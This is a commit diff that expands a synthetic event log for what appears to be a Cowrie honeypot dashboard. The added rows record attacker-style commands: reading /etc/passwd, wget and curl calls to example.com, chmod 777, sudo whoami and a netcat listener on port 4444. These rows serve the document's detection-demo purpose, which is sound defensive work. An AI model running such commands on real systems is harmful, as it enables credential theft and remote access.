

Before and after one commit to faizan69-don/cowrie-honeypot-dashboard, a CSV file: demo_events.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Expand synthetic threat detection demo dataset

```diff
--- a/demo_events.csv
+++ b/demo_events.csv
@@ -17 +17,9 @@ timestamp,eventid,src_ip,username,input,session
 2026-11-23T18:06:30,cowrie.session.closed,203.0.113.7,,,
+2026-11-23T18:09:00,cowrie.session.connect,192.0.2.55,,,session004
+2026-11-23T18:09:10,cowrie.login.success,192.0.2.55,admin,,session004
+2026-11-23T18:09:20,cowrie.command.input,192.0.2.55,admin,cat /etc/passwd,session004
+2026-11-23T18:09:30,cowrie.command.input,192.0.2.55,admin,wget http://example.com/file,session004
+2026-11-23T18:09:40,cowrie.command.input,192.0.2.55,admin,curl http://example.com,session004
+2026-11-23T18:09:50,cowrie.command.input,192.0.2.55,admin,chmod 777 file.txt,session004
+2026-11-23T18:10:00,cowrie.command.input,192.0.2.55,admin,sudo whoami,session004
+2026-11-23T18:10:10,cowrie.command.input,192.0.2.55,admin,nc -lvnp 4444,session004
```
